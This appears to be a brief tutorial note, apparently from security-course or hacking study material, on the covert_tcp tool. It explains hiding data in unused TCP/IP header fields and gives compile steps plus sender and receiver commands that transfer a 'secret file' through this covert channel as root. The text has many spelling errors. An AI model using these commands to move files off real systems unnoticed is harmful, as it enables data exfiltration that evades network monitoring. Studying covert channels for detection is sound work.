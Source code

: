 Covert TCP helps us to hide the data that is being sent over the network by manuplation the TCP/IP header. We send the data in the left iut spaces present in the header 1 Byte at a time.

**Link:**
		Google the covert tcp.c download
			http://www.scf.usc.edu/

**Command:**
		cc -o covert_tcp covert_tcp.c (Sender)
		cc -o covert_tcp covert_tcp.c (Receiver)
		 
		Make sure we are root.
		Main Command:
		
		Sender:
		./covert_tcp -source <sneder IP> -dest <receiver's IP> -source_port 9999 
		-dest_port 8888 -file <secret file>`
		
		Receiver:
		./covert_tcp -source <sender IP> -source_port 8888 -server -file 
		reive.txt(any name)